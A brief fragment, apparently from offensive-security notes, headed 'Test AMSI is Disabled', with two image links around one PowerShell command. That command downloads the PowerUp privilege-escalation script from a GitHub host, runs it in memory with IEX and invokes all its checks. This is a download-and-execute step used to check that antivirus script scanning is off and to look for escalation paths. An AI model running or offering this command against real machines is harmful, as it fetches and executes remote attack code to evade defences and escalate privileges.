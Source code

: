 Test AMSI is Disabled: IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks

![image](https://github.com/user-attachments/assets/f99a5ed5-45ed-445e-b25c-45e15fe9f138)
